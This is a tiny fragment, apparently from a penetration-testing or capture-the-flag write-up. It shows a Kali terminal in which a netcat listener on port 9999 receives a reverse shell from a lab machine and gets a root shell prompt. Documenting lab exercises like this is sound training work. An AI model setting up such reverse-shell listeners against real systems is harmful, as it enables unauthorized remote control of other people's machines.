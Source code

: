 ```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.101] 54250
/bin/sh: 0: can't access tty; job control turned off
#
```
